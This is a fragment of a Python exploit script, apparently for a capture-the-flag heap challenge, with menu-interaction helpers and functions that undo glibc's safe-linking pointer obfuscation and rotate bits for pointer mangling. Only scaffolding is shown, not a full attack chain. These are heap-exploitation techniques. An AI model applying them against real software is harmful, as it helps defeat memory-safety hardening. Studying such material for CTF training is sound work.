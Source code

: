 ```python

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

def create(idx: int, data: bytes) -> None:
    io.recvuntil(b"> ")
    io.sendline(b"1")
    io.recvuntil(b"Index? ")
    io.sendline(str(idx).encode())
    io.recvuntil(b"Content? Content? ")
    io.sendline(data)

def read(idx: int) -> bytes:
    io.recvuntil(b"> ")
    io.sendline(b"2")
    io.recvuntil(b"Index? ")
    io.sendline(str(idx).encode())
    return io.recvuntil(b"Menu:")[:-5]

def update(idx: int, data: bytes) -> None:
    io.recvuntil(b"> ")
    io.sendline(b"3")
    io.recvuntil(b"Index? ")
    io.sendline(str(idx).encode())
    io.recvuntil(b"Content? ")
    io.sendline(data)

def delete(idx: int) -> None:
    io.recvuntil(b"> ")
    io.sendline(b"4")
    io.recvuntil(b"Index? ")
    io.sendline(str(idx).encode())

def quit() -> None:
    io.recvuntil(b"> ")
    io.sendline(b"0")

# Defeat glibc's heap pointer obfuscation
# mangled = ptr ^ (address >> 12), where address is the address the pointer is stored at
# If the pointer is stored in the same page, we can fully recover the leaked pointer value,
# as we know the first 12 bits
def deobfuscate(val):
    mask = 0xfff << 52
    while mask:
        v = val & mask
        val ^= (v >> 12)
        mask >>= 12
    return val

def obfuscate(val, pos):
    return val ^ (pos >> 12)

# The shifts are copied from the above blogpost
# Rotate left: 0b1001 --> 0b0011
rol = lambda val, r_bits, max_bits: \
    (val << r_bits%max_bits) & (2**max_bits-1) | \
    ((val & (2**max_bits-1)) >> (max_bits-(r_bits%max_bits)))

```